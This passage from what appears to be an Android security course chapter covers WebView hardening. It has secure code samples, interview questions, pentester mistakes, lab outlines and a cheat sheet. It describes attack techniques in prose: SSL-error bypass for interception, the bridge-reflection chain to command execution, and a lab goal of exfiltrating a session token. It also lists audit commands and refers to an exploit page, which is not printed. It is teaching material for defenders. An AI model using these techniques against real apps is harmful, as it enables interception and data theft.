  `COMPUTED`; four of eleven real APKs hit this.
- **Bridges registered by reflection**, or in DEX loaded at runtime.
- **Bridges injected by the OEM.** §5.5 measured `miui.contentcatcher.sdk.WebViewDetector` appearing
  in an app that registers exactly one bridge.
- **Whether a guarded call actually fires.** 20 static `setWebContentsDebuggingEnabled` call sites, 0
  live sockets.
- **Whether a branch in `onReceivedSslError` is a pin or a debug flag.** A human reads the method.
- **Reachability.** Whether attacker-controlled content can actually get into this WebView is a
  question about the whole app, and inventing an answer is how automated tools generate the findings
  that get programmes to stop reading your reports.

---

## 9. Examples

Five graded examples. The first three are printed in full here; the last two are the shipped lab apps
in `examples/`, which are too long to inline and are annotated line by line in place.

### 9.1 Simple — the smallest WebView that is not a finding

```java
// examples/README.md documents this pattern; it is short enough to keep inline.
// A WebView that renders one page the app ships, with nothing enabled that it does not need.
package com.example.minimal;

import android.app.Activity;
import android.os.Bundle;
import android.webkit.WebSettings;
import android.webkit.WebView;

import androidx.webkit.WebViewAssetLoader;

public class TermsActivity extends Activity {
    @Override protected void onCreate(Bundle b) {
        super.onCreate(b);
        WebView web = new WebView(this);
        setContentView(web);

        WebSettings s = web.getSettings();
        s.setJavaScriptEnabled(false);   // this page is static text; it does not need script
        s.setAllowFileAccess(false);     // explicit, so a future targetSdk drop cannot re-enable it
        s.setAllowContentAccess(false);  // the default is TRUE; this is the line nobody writes

        // Serve the packaged asset over a virtual https:// origin instead of file://,
        // so the page has a normal web origin and the same-origin policy behaves normally.
        final WebViewAssetLoader loader = new WebViewAssetLoader.Builder()
                .addPathHandler("/assets/", new WebViewAssetLoader.AssetsPathHandler(this))
                .build();
        web.setWebViewClient(new androidx.webkit.WebViewClientCompat() {
            @Override public android.webkit.WebResourceResponse shouldInterceptRequest(
                    WebView view, android.webkit.WebResourceRequest request) {
                return loader.shouldInterceptRequest(request.getUrl());
            }
            // onReceivedSslError is deliberately NOT overridden. The base implementation cancels.
        });
        web.loadUrl("https://appassets.androidplatform.net/assets/terms.html");
    }
}
```

Three things make this correct, and none of them is clever: `setAllowContentAccess(false)` is written
even though nobody thinks about it, `onReceivedSslError` is absent, and the content is served over an
`https` origin rather than `file://`.

### 9.2 Intermediate — the same screen, done the way most apps do it

```java
// The version that ships. Every line is defensible in isolation.
WebSettings s = web.getSettings();
s.setJavaScriptEnabled(true);            // the page has a collapsible section
s.setDomStorageEnabled(true);            // the collapse state is remembered
web.loadUrl(getIntent().getStringExtra("url"));   // reused by three screens, so it takes a URL
```

Three lines, no `WebViewClient`, no bridge. Audit it:

| Setting | Value | From |
|---|---|---|
| `javaScriptEnabled` | true | explicit |
| `allowContentAccess` | **true** | **default — nobody wrote it** |
| `allowFileAccess` | true if targetSdk ≤ 29, false from 30 | default |
| `mixedContentMode` | 1 (`NEVER_ALLOW`) | default, and correct |

And the finding is the fourth line, not the settings: `getIntent().getStringExtra("url")` with no
validation, in an Activity that — check the manifest — is exported. `WV-060`.

The fix is four lines and does not remove the feature:

```java
Uri uri = Uri.parse(getIntent().getStringExtra("url"));
if (!"https".equalsIgnoreCase(uri.getScheme())
        || uri.getUserInfo() != null
        || !ALLOWED_HOSTS.contains(String.valueOf(uri.getHost()).toLowerCase(Locale.ROOT))) {
    finish(); return;
}
```

### 9.3 Advanced — a bridge done as safely as `addJavascriptInterface` allows

Sometimes the product genuinely needs page-to-app calls. If you must use the legacy API, this is the
shape:

```java
public final class NarrowBridge {

    private final WeakReference<Activity> host;     // no strong Context reference
    private volatile String currentOrigin = "";     // updated by the WebViewClient

    NarrowBridge(Activity a) { this.host = new WeakReference<>(a); }

    /** The WebViewClient tells the bridge which document is currently loaded. */
    void setCurrentOrigin(String origin) { this.currentOrigin = origin; }

    @JavascriptInterface
    public void shareText(String text) {
        // 1. ORIGIN CHECK. addJavascriptInterface injects into every frame of every
        //    document, so the bridge must check for itself. This is a best-effort
        //    check and it is exactly why addWebMessageListener exists.
        if (!"https://lab.example.com".equals(currentOrigin)) { return; }

        // 2. NO SECRETS OUT. This method returns void. A bridge method that returns
        //    a token has published that token to the page.

        // 3. VALIDATE. Length, charset, everything.
        if (text == null || text.length() > 4096) { return; }

        // 4. THREAD. Bridge calls arrive on a Chromium background thread.
        Activity a = host.get();
        if (a == null) { return; }
        a.runOnUiThread(() -> {
            Intent i = new Intent(Intent.ACTION_SEND).setType("text/plain")
                    .putExtra(Intent.EXTRA_TEXT, text);
            a.startActivity(Intent.createChooser(i, null));
        });
    }
}
```

And why the modern API is strictly better — the origin check moves out of your code and into
Chromium, where it is enforced before the message crosses:

```java
if (WebViewFeature.isFeatureSupported(WebViewFeature.WEB_MESSAGE_LISTENER)) {
    WebViewCompat.addWebMessageListener(
            web, "appBridge",
            new HashSet<>(Arrays.asList("https://lab.example.com")),
            (view, message, sourceOrigin, isMainFrame, replyProxy) -> {
                if (!isMainFrame) { return; }         // still refuse iframes explicitly
                handle(message.getData());
            });
}
```

### 9.4 Real application — the deliberately vulnerable lab app

**`examples/vulnerable-webview/`** — four files, every defect tagged `[V1]`…`[V11]` in the source:

| File | What it demonstrates |
|---|---|
| `VulnerableWebViewActivity.java` | The permissive settings block, the `onReceivedSslError` that proceeds, the `contains()` navigation gate, the unguarded debugging switch, the unvalidated deep-link URL |
| `LeakyBridge.java` | Four `@JavascriptInterface` methods and one unannotated public method, so the API 17 gate can be observed rather than believed |
| `NotesProvider.java` | An **unexported** provider, reachable from page script anyway |
| `AndroidManifest.xml` | The `BROWSABLE` entry point |
| `network_security_config.xml` | A *correct* config, present to prove it does not help |
| `home.html` | The app's own page, with the annotation-gate probe |

```bash
# host
cd examples && ./build.sh --install
```

### 9.5 Enterprise application — the hardened counterpart

**`examples/hardened-webview/`** — the same app, same features, every defect fixed, each fix tagged
with the `[Vn]` it answers. It is not longer than the vulnerable version, and that is the point.

The single most important difference is an **absence**: `onReceivedSslError` is not overridden. A
reviewer scanning the hardened file for "the fix" will not find a line, and the comment in place says
so explicitly.

Verified on the device: the hardened app **rejected** the identical deep link and created **no
DevTools socket**.

```
CH43SAFE: rejected deep-link URL: https://127.0.0.1:8443/evil.html
$ adb shell "cat /proc/net/unix | grep -i devtools"
(no output)
```

Also shipped: **`examples/webview-probe/`**, the measurement app that produced §3.4, and
**`examples/attacker-page/evil.html`**, the exploit page used in §5.3 and labs 01 and 03.

---

## 10. Common Interview Questions

### Beginner

**Q. What is a WebView?**
A View that renders web content inside an app, using the Chromium engine, **in the app's own
process**. Unlike opening a browser, the page runs inside the app's security context.

**Q. Is a WebView the same as Chrome?**
Same engine, different container, different everything else. A WebView has no address bar, no tabs,
no user profile, no shared cookies with Chrome, and — crucially — it obeys the *app's* settings and
callbacks. Chrome shows a certificate warning; a WebView asks the app what to do.

**Q. What does `setJavaScriptEnabled(true)` mean for security?**
On its own, essentially nothing. It is a precondition. It becomes a finding in combination with a
bridge, with reachable attacker content, or with a permissive origin setting. Reporting it alone is a
common junior mistake.

**Q. Why is `addJavascriptInterface` considered dangerous?**
It gives page JavaScript the ability to call Java methods running as the app's UID with the app's
permissions. Whether that is dangerous depends entirely on what those methods do and on who controls
the page.

### Intermediate

**Q. What did `@JavascriptInterface` fix in API 17, and what did it not fix?**
Before 17, *every* public method of the bridged object was exposed, including inherited
`java.lang.Object` methods — so `getClass()` gave a reflection path to `Runtime.exec` and hence
arbitrary command execution. The annotation restricts exposure to explicitly-marked methods, which
closes that chain. It does not make the marked methods safe, and it does not scope the bridge to an
origin: the object is injected into every frame of every document, including third-party iframes.

**Q. Does the network security config apply to a WebView?**
For cleartext, yes — Chromium consults `NetworkSecurityPolicy` through JNI and an denied `http://`
load fails with `ERR_CLEARTEXT_NOT_PERMITTED`. For trust, partially and unreliably: Chromium builds
and verifies chains itself, so do not assume a `<pin-set>` applies. And for *failure handling*,
not at all — that is `onReceivedSslError`, in code.

**Q. Why does my OkHttp pinning bypass not work on this app's WebView traffic?**
Because the WebView does not use OkHttp. Chromium has its own network stack, its own certificate
verifier and its own cookie jar. Hooks on `X509TrustManager` never fire for WebView requests, which
is why `35-SSL`'s tracer is completely silent during a page load.

**Q. Where do WebView cookies live, and why does that matter at logout?**
`/data/data/<pkg>/app_webview/Cookies`, a SQLite database entirely separate from the Java stack's
cookie store. Clearing the app's session does not clear it. Logout needs `CookieManager.removeAllCookies`,
`WebStorage.deleteAllData`, `clearCache`, `clearHistory` and `clearFormData`.

### Senior

**Q. An app has a perfect network security config — no cleartext, system anchors only, no debug
overrides. Can I still MITM its WebView?**
Yes, if it overrides `onReceivedSslError` and calls `proceed()`. The config describes whom to trust;
that method decides what happens when nobody trusted vouched for the server. Demonstrated in §5.3
with a self-signed certificate and the config in place.

**Q. `setAllowContentAccess` defaults to true. Does that mean any web page can read the app's
providers?**
No, and this is where most write-ups overreach. Measured on WebView 150 / API 30: a **remote
`http://` or `https://` page** issuing `XHR content://…` gets status 0 — blocked. A **`file://`-origin
document** gets status 200 and the provider's data. So the chain needs an attacker-influenced local
HTML file plus `setAllowFileAccess`. Separately, a *bridge* method that calls `ContentResolver` is
reachable from any origin, because origin is never consulted for bridge calls.

**Q. How would you prove that an app's `proceed()` is what allowed a page to load, rather than the
certificate having been acceptable?**
Run the navigation twice with a runtime hook: once observing, once replacing `proceed()` with
`cancel()`. Page loads then fails, with the same certificate, is causation.Chromium caches
the decision per host, so the second run needs a different hostname or a data clear.

**Q. An app targets API 29. Which WebView defaults differ from an app targeting 30?**
`setAllowFileAccess` — `true` at 29, `false` at 30. Measured. Everything else in the table is the
same across that boundary.

**Q. Why is `isolatedProcess` relevant to WebView, and what does it not protect?**
The renderer runs as an isolated service: an ephemeral UID in the 99000 range, SELinux `isolated_app`,
forked from `webview_zygote`, no access to the app's data. It contains a Blink or V8 memory-corruption
bug. It does nothing about the app's own bridge, because the bridge object runs in the app process by
design — the call crosses the boundary because the app asked for a door.

### Staff Engineer

**Q. You are designing the WebView layer for a banking app. What is your architecture?**
Serve packaged content over `WebViewAssetLoader`'s virtual `https://` origin, never `file://`. Deny
`file` and `content` access explicitly rather than relying on defaults. Use
`WebViewCompat.addWebMessageListener` with an origin allow-list rather than
`addJavascriptInterface`, and expose only `void` methods that take validated input — no method
returns a secret. Enforce navigation in both `shouldOverrideUrlLoading` and `shouldInterceptRequest`,
by parsed host equality. Do not override `onReceivedSslError`. Gate
`setWebContentsDebuggingEnabled` on `FLAG_DEBUGGABLE` read from `ApplicationInfo`. Clear all six
storage surfaces at logout. Pin at the Java layer for API traffic, and accept that WebView traffic is
not pinned by that — keep authenticated content out of the WebView where possible.

**Q. How do you regression-test that a WebView configuration does not drift?**
`webview-audit.py --fail-on HIGH` in CI, against the release APK, on every build. Static defaults are
computed from `targetSdkVersion`, so a `targetSdkVersion` drop that silently re-enables
`setAllowFileAccess` is caught. Add an instrumented test that reads back
`webView.getSettings().getAllowContentAccess()` and asserts `false` — the readback catches what
static analysis calls `COMPUTED`.

**Q. Your app is fine. A third-party SDK registers a bridge with 40 methods. What do you do?**
Establish the origin scope first: which documents does that SDK's WebView load? If it is a chat SDK
loading its own vendor domain, the exposure is to that vendor's compromise, and that is a supply-chain
risk to be recorded rather than a bug to be fixed in your code. If the SDK's WebView can be
navigated by attacker-influenced content, it is your finding regardless of who wrote it. Measure with
the runtime tracer; the corpus in §5.4 has 863 exposed methods and almost none are first-party.

### Principal Engineer

**Q. Was extending the Java-to-JavaScript bridge into `addJavascriptInterface` the right platform
decision in 2009, and what would you have built instead?**
It solved a real problem — hybrid apps needed native capability — with the tools of the time, and its
sin was defaulting to *whole-object* exposure with no origin scope. The failure was the default, not
the concept: `addWebMessageListener`'s origin allow-list is the same feature with the default
inverted. The general lesson is that a capability granted to "the WebView" rather than "this origin
in this WebView" is a capability granted to whoever eventually controls the URL, and URLs are the
part of a system most likely to become attacker-influenced over the years.

**Q. Argue for and against `onReceivedSslError` existing at all.**
For: the platform genuinely cannot decide for the app. Enterprise deployments with internal CAs,
captive portals, and apps that pin by comparing the served certificate against a bundled copy all
need to see the failure. Removing the callback would push those apps to worse workarounds, such as
bundling their own HTTP client or trusting a private CA globally. Against: the callback is a
foot-gun with a safe default that developers actively override to make a QA problem go away, and the
measured population of overrides is dominated by exactly that. A middle path the platform could have
taken: make `proceed()` require a certificate-matching argument, so "accept this specific
certificate" is expressible and "accept everything" is not.

**Q. WebView is a Mainline module. What does that change about how you run a mobile security
programme?**
Your app's browser engine is not something you ship, test against, or control — it changes under
users, in the field, without an app update. Three consequences. First, your compatibility testing
matrix needs a WebView version axis independent of the OS axis. Second, your vulnerability management
process cannot triage WebView CVEs by OS version; it needs the provider version, per device, which
usually means telemetry you do not currently collect. Third, a behaviour your app relies on — how
mixed content is classified, which schemes reach `shouldOverrideUrlLoading` — can change without any
change on your side, so security controls should not be built on Chromium's behaviour where a
first-party check is possible.

**Q. Why is `setAllowContentAccess`'s default still `true`, twelve API levels after the other file
flags flipped?**
Compatibility. `content://` is how Android apps legitimately share files, and a great many
WebView-based flows — image pickers, document previews, camera uploads — depend on it. Flipping it
would break visible functionality in a way `setAllowFileAccess` did not. That is a defensible product
decision and it is also why the setting is the most valuable single line in a hardening review: the
platform has decided it cannot fix this for you.

---

## 11. Common Mistakes

### 11.1 Developer mistakes

| Mistake | Why it happens | The fix |
|---|---|---|
| Overriding `onReceivedSslError` to `proceed()` | A QA environment with a self-signed certificate | Delete the override. Fix the certificate, or pin explicitly by comparing `error.getCertificate()` |
| Returning a secret from a bridge method | The web team asked for it | Bridge methods should return `void` or non-sensitive data. Push state to the page from Java when you must |
| `url.contains("ourdomain.com")` | It reads like intent | Parse the URI, reject userinfo, compare the host exactly against a set (§3.12) |
| Assuming `setAllowContentAccess` is off | It is the only relevant setting that defaults to on | Write `setAllowContentAccess(false)` |
| Relying on a default instead of writing it | Defaults are shorter | Write the safe value explicitly, so lowering `targetSdkVersion` cannot silently re-enable it |
| Unguarded `setWebContentsDebuggingEnabled(true)` | Invisible in a debug build | Gate on `ApplicationInfo.FLAG_DEBUGGABLE` |
| Clearing the app session at logout but not the WebView's | Two cookie jars is surprising | All six calls in §3.14 |
| Enforcing navigation only in `shouldOverrideUrlLoading` | It looks like *the* navigation callback | It sees top-level navigations only; add `shouldInterceptRequest` for subresources |
| Loading packaged content from `file://` | It is the obvious way | `WebViewAssetLoader` and a virtual `https://` origin |
| Touching UI state in a bridge method | It looks like app code | Bridge calls arrive on a Chromium background thread. Post to the main thread |
| Never auditing the bridges an SDK registers | You did not write them | Run the runtime tracer once per release |

### 11.2 Pentester mistakes

| Mistake | Why it is wrong |
|---|---|
| Reporting `setJavaScriptEnabled(true)` as a finding | It is a precondition, not a defect. It costs you credibility on the real findings underneath |
| Reporting all 20 `setWebContentsDebuggingEnabled` hits | Measured: 20 static call sites, **0** live sockets. They are guarded. Check `/proc/net/unix` |
| Grepping for `@<package>_devtools_remote` | The real name is `@webview_devtools_remote_<pid>`. Grep for `devtools` |
| Concluding "no findings" from a clean auditor run | `com.vendor.socialmedia`'s `base.apk` is a 72 KB stub inside a 57 MB file. Check the DEX size |
| Using an OkHttp pinning bypass and reporting success | It never fired. WebView traffic does not touch the Java stack |
| Reporting an SSL bypass proved with your proxy's CA | On a device like this one, that CA is in the **system** store. Use a self-signed certificate from no store, or the result proves nothing |
| Reporting `content://` reachability from a remote page | Measured blocked. It needs a `file://` origin, or a bridge |
| Testing the certificate path once and failing to reproduce | Chromium caches the proceed decision per host. Change hostname |
| Attaching Frida instead of spawning | The settings are applied in `onCreate`. You will see none of them |
| Reporting the device's WebView version as an app finding | The app cannot choose it. That is device posture |
| Claiming "the app trusts user CAs" on this device | The system CA store is modified by an APatch `trustusercerts` module. Run `mount \| grep cacerts` first |

### 11.3 Reverse engineer mistakes

| Mistake | Why it is wrong |
|---|---|
| Reading the instruction immediately before a setter to find its argument | The compiler hoists and reuses `const` registers. §6.2 shows four setters sharing one `v0`. Backtrack to the last write |
| Hooking `android.webkit.WebSettings` and assuming it fires | The concrete class is `ContentSettingsAdapter`, from the provider APK. Hook both, print which fired |
| `Java.use` on a class from the WebView provider | Different ClassLoader. Use `Java.ClassFactory.get(loader)` |
| Keeping a Java wrapper across JNI frames | `Error: expected a pointer`. `Java.retain()` is mandatory |
| Looking for WebView defaults in AOSP | `WebSettings` is abstract. They are in `AwSettings`, in the provider APK. Measure them |
| Assuming a `WebViewClient` subclass is findable by name | It is usually an anonymous inner class not loaded until first navigation. Hook `setWebViewClient` and read `$className` |
| Assuming obfuscation hides the bridge | Method names are called by name from JavaScript and must be kept. The whole surface survives |
| Treating `setMixedContentMode(0)` as harmless because it is "just zero" | `0` is `ALWAYS_ALLOW` |
| Expecting `SslErrorHandler.proceed` to have a body in AOSP | It is empty in the platform. The implementation is the provider's subclass (`WV.e53` here) |

---

## 12. Hands-on Labs

Four labs of increasing difficulty. The first three build on each other; the fourth is a CTF.
Everything runs against apps you build with `examples/build.sh` and a listener on your own machine.

| Lab | Objective | Needs |
|---|---|---|
| [Lab 01 — Exploit a JavaScript bridge in an app you build](labs/lab-01-exploit-a-javascript-bridge.md) | Build the vulnerable app, drive a URL into it through its deep link, enumerate the bridge from a page, exfiltrate the session token, and then measure the origin matrix for `content://` and `file://` | Android SDK build-tools, a JDK, a device, `adb` |
| [Lab 02 — Defeat a config that looks correct](labs/lab-02-onreceivedsslerror-defeats-a-correct-config.md) | Read the app's network security config, confirm it is correct, then intercept the WebView anyway using the app's own `onReceivedSslError`. Prove causation with the `forceCancel` control | Lab 01's app, Python, Frida |
| [Lab 03 — Audit a real app end to end](labs/lab-03-audit-a-real-app.md) | Run the static auditor against an APK from your own device, then the runtime tracer against the running app, reconcile the two, and write the finding — including the ones you must downgrade | A real app, both scripts |
| [Lab 04 — CTF: The Deputy in the Browser](labs/lab-04-ctf-the-deputy-in-the-browser.md) | Five flags across the chain, from deep link to provider, with a deliberate red herring | Everything above |

Two rules that apply to all four:

- **Only attack apps you build.** Lab 03 works against a third-party app and stops at *detection*.
  Nothing in it exercises, modifies or exploits software you did not write.
- **Nothing is exposed to a network.** Every listener binds to the host and is reached through
  `adb reverse`.

---

## 13. Summary

### 13.1 Key points

- A **WebView is a complete Chromium browser embedded in your app's process**. The page runs under
  the app's UID with the app's permissions next to the app's private files.
- **WebView is a Mainline module.** Its version is not the OS version. Measured: Chromium
  **150.0.7871.181** on an **Android 11 / API 30** device whose factory WebView was 92. Record both,
  always.
- **Settings defaults depend on `targetSdkVersion`, and the dangerous ones are the ones nobody
  wrote.** Measured on the device: `setAllowFileAccess` flips at **30**, the two file-URL origin flags
  at **16**, `setMixedContentMode` at **21** — and **`setAllowContentAccess` is `true` at every level
  from 14 to 35**.
- **`addJavascriptInterface` exposes Java to page script.** `@JavascriptInterface` has been required
  since API 17; it closed the `getClass()` reflection chain to `Runtime.exec` and closed nothing else.
  **The risk is the bridge, not the annotation.**
- A bridge is **origin-agnostic**. The `content://` and `file://` scheme relaxations are **not** —
  measured, they need a `file://`-origin document; a remote page gets status 0.
- **`onReceivedSslError` + `proceed()` bypasses certificate validation entirely, and no XML can stop
  it.** Demonstrated with a correct network security config in place and a self-signed certificate.
  The safe implementation is *not overriding the method*.
- **The network security config does reach WebViews** for cleartext — `ERR_CLEARTEXT_NOT_PERMITTED`
  is chapter 44's mechanism working. It says nothing about the failure path.
- **WebView has its own network stack.** `TrustManager` hooks, OkHttp `CertificatePinner` and
  objection's pinning bypass are all inert against it.
- **The renderer is the platform's flagship `isolatedProcess`**: uid 99093, SELinux `isolated_app`,
  forked from `webview_zygote`, `externalService` so it is charged to your app. It contains an engine
  bug and does nothing about your own bridge.
- **`setWebContentsDebuggingEnabled(true)` opens `@webview_devtools_remote_<pid>`** — an abstract
  socket with no filesystem permissions, giving a full DevTools session including every bridge method.
  Not `@<package>_devtools_remote`; `@chrome_devtools_remote` is Chrome's.
- **Honest severity matters here more than almost anywhere.** `setJavaScriptEnabled(true)` is not a
  finding. Measured: 20 static debugging call sites, 0 live sockets; 46 `onReceivedSslError`
  overrides, 3 that proceed, **0** unconditional.

### 13.2 The chapter as a map



### 13.3 Condensed cheat sheet

| Setting | Default | Flips at | Finding when |
|---|---|---|---|
| `setJavaScriptEnabled` | `false` | never | **never alone** — precondition only |
| `setAllowFileAccess` | `true` → `false` | **targetSdk 30** | explicit `true` at ≥ 30, or with a local write |
| `setAllowFileAccessFromFileURLs` | `true` → `false` | **targetSdk 16** | `true` — MEDIUM |
| `setAllowUniversalAccessFromFileURLs` | `true` → `false` | **targetSdk 16** | `true` — **HIGH** |
| `setAllowContentAccess` | **`true`** | **never** | with JS + a `file://` origin — MEDIUM |
| `setDomStorageEnabled` | `false` | never | secrets in `app_webview/Local Storage/` |
| `setMixedContentMode` | `0` → `1` | **targetSdk 21** | `0` — MEDIUM |
| `setSafeBrowsingEnabled` | `true` | never | manifest opt-out — INFO |
| `setWebContentsDebuggingEnabled` | off | n/a | unguarded in release — **HIGH**, confirm the socket |

| Callback | Base behaviour | Finding when |
|---|---|---|
| `onReceivedSslError` | **cancels** | overridden and proceeds — HIGH; unconditionally — **CRITICAL** |
| `onReceivedClientCertRequest` | cancels | proceeds without checking `getHost()` |
| `onReceivedHttpAuthRequest` | cancels | supplies stored credentials without checking `host` |
| `shouldOverrideUrlLoading` | returns `false` | substring allow-list; `Intent.parseUri` + `startActivity` |
| `shouldInterceptRequest` | returns `null` | path traversal in a local file server |

| Command | Answers |
|---|---|
| `adb shell dumpsys webviewupdate` | which provider, which version |
| `adb shell "cat /proc/net/unix \| grep devtools"` | is remote debugging live |
| `adb shell mount \| grep cacerts` | **is this device's trust store trustworthy** |
| `grep -rn "SslErrorHandler;->proceed" work/smali*/` | the highest-value grep in the chapter |
| `python3 -B scripts/webview-audit.py base.apk` | every setting, bridge and SSL handler, statically |
| `frida -U -f pkg -l scripts/trace-webview.js` | what actually happens |
| `adb logcat \| grep ERR_CLEARTEXT_NOT_PERMITTED` | chapter 44's config enforcing inside the WebView |

### 13.4 Quick revision

- A WebView runs in **whose** process, under **whose** UID? — The app's, the app's.
- What is `setAllowContentAccess`'s default, and at which API level does it change? — `true`, and
  never.
- `setJavaScriptEnabled(true)` — finding or not? — Not. Precondition.
- What did `@JavascriptInterface` fix? — Exposure of *unannotated* public methods, and with them the
  `getClass()` → `Runtime.exec` chain. Nothing else.
- Which is reachable from a remote `https://` page: an `XHR` to `content://`, or a bridge method? —
  The bridge. Measured.
- What does `WebViewClient.onReceivedSslError`'s base implementation do? — `handler.cancel()`.
- Which XML element prevents `handler.proceed()`? — None. There is no such element.
- Which network stack does a WebView use? — Chromium's, not the app's.
- Where does the renderer's UID come from? — The isolated range, 99000–99999, SELinux `isolated_app`.
- What is the DevTools socket called? — `@webview_devtools_remote_<pid>`.
- 20 static `setWebContentsDebuggingEnabled` call sites were found. How many live sockets? — Zero.
- What must appear in every WebView finding alongside the Android version? — The WebView provider
  version.

---

## 14. References

Full annotated list, with a related-chapters table, in [references/README.md](references/README.md).
The essentials:

### AOSP source

- `frameworks/base/core/java/android/webkit/WebView.java` — the public API surface
- `frameworks/base/core/java/android/webkit/WebSettings.java` — abstract; the constants live here,
  the defaults do not
- `frameworks/base/core/java/android/webkit/WebViewClient.java` — **`onReceivedSslError`'s base
  implementation calls `handler.cancel()`**
- `frameworks/base/core/java/android/webkit/SslErrorHandler.java` — `proceed()` and `cancel()`, both
  empty in the platform
- `frameworks/base/core/java/android/webkit/WebViewFactory.java` — provider selection and the
  ClassLoader boundary
- `frameworks/base/services/core/java/com/android/server/webkit/` — `WebViewUpdateService`
- `frameworks/base/core/java/android/net/http/SslError.java` — the six error codes
- `frameworks/base/core/java/android/security/NetworkSecurityPolicy.java` — the cleartext policy
  Chromium calls through JNI
- `external/chromium-webview/` — the prebuilt Chromium delivered as the provider APK

### Official documentation

- Android Developers — `WebView`, `WebSettings`, `WebViewClient`, `CookieManager`
- Android Developers — "Managing WebView objects" and "Web-based content" security guidance
- `androidx.webkit` — `WebViewAssetLoader`, `WebViewCompat.addWebMessageListener`, `WebViewFeature`
- Chromium — Android WebView documentation and the Chrome DevTools Protocol
- Android Mainline / Project Mainline — how a module updates independently of the OS

### OWASP

- **MASVS-PLATFORM-2** — WebViews are configured securely
- MASVS-PLATFORM-1, MASVS-NETWORK-1, MASVS-NETWORK-2, MASVS-STORAGE-2, MASVS-CODE-1
- MASTG tests covering JavaScript execution, WebView protocol handlers, native methods exposed
  through WebViews, and WebView cleanup

### Within this repository

| Chapter | What it owns that this chapter needs |
|---|---|
| [21-App-Sandbox](../21-App-Sandbox/README.md) | UIDs, SELinux domains, `isolatedProcess` mechanics |
| [24-IPC](../24-IPC/README.md) | Abstract-namespace sockets |
| [26-Intent](../26-Intent/README.md) | How an attacker's URL reaches the Activity |
| [27-ContentProviders](../27-ContentProviders/README.md) | What is on the other end of a `content://` fetch |
| [30-Activities](../30-Activities/README.md) | The exported Activity as a confused deputy |
| [32-Manifest](../32-Manifest/README.md) | `BROWSABLE`, `exported`, `debuggable` |
| [33-Storage](../33-Storage/README.md) | Reading `app_webview/` |
| [35-SSL](../35-SSL/README.md) | TLS and trust generally |
| [36-CertificatePinning](../36-CertificatePinning/README.md) | Pinning — and why it does not transfer |
| [44-NetworkSecurityConfig](../44-NetworkSecurityConfig/README.md) | The XML, and the cleartext half of every WebView verdict |
| [45-OAuth](../45-OAuth/README.md) | Why an embedded user agent is the wrong place for a login |
| [53-Frida](../53-Frida/README.md) | The instrumentation used throughout §7 |

### This chapter's own artefacts

| File | Purpose |
|---|---|
| [scripts/webview-audit.py](scripts/webview-audit.py) | Static: every setting an APK applies *and* every one it inherits, bridges, and `onReceivedSslError` bodies |
| [scripts/trace-webview.js](scripts/trace-webview.js) | Runtime: effective settings read back, bridges enumerated by reflection, `proceed()` vs `cancel()`, and the `forceCancel` control |
| [examples/webview-probe/](examples/webview-probe/ProbeActivity.java) | The measurement app that produced §3.4 |
| [examples/vulnerable-webview/](examples/vulnerable-webview/VulnerableWebViewActivity.java) | Eleven tagged defects |
| [examples/hardened-webview/](examples/hardened-webview/HardenedWebViewActivity.java) | The same app with each one fixed |
| [examples/attacker-page/evil.html](examples/attacker-page/evil.html) | The exploit page from §5.3 |
| [cheatsheet.md](cheatsheet.md) | The settings table with defaults **and** the version each changed at |
| [mindmap.md](mindmap.md) | The whole chapter as one map |
| [faq.md](faq.md) | Including the questions people are embarrassed to ask |
